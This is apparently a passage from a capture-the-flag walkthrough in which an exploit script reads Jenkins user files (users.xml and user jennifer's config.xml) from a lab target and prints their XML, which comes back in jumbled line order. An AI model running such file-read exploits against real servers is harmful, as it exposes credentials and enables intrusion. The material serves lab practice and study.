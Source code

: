 ```shell
$ python 51993.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/users/users.xml          
<?xml version='1.1' encoding='UTF-8'?>
      <string>jennifer_12108429903186576833</string>
  <idToDirectoryNameMap class="concurrent-hash-map">
    <entry>
      <string>jennifer</string>
  <version>1</version>
</hudson.model.UserIdMapper>
  </idToDirectoryNameMap>
<hudson.model.UserIdMapper>
    </entry>
```

And now `jennifer`'s xml

```shell
$ python 51993.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/users/jennifer_12108429903186576833/config.xml
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@463.vedf8358e006b_">
    <hudson.search.UserSearchProperty>
      <roles>
    <jenkins.security.seed.UserSeedProperty>
      </tokenStore>
    </hudson.search.UserSearchProperty>
      <timeZoneName></timeZoneName>
  <properties>
    <jenkins.security.LastGrantedAuthoritiesProperty>
      <flags/>
    <hudson.model.MyViewsProperty>
</user>
    </jenkins.security.ApiTokenProperty>
      <views>
        <string>authenticated</string>
    <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.200.vb_9327d658781">
<user>
          <name>all</name>
  <description></description>
      <emailAddress>jennifer@builder.htb</emailAddress>
      <collapsed/>
    </jenkins.security.seed.UserSeedProperty>
    </org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty>
    </hudson.model.MyViewsProperty>
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash"/>
          <filterQueue>false</filterQueue>
    <jenkins.security.ApiTokenProperty>
      <primaryViewName></primaryViewName>
      </views>
    </hudson.model.TimeZoneProperty>
    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@1319.v7eb_51b_3a_c97b_">
    </hudson.model.PaneStatusProperties>
    </hudson.tasks.Mailer_-UserProperty>
        <tokenList/>
    <jenkins.console.ConsoleUrlProviderUserProperty/>
        </hudson.model.AllView>
      <timestamp>1707318554385</timestamp>
          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>
  </properties>
    </jenkins.model.experimentalflags.UserExperimentalFlagsProperty>
    </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <insensitiveSearch>true</insensitiveSearch>
          <properties class="hudson.model.View$PropertyList"/>
```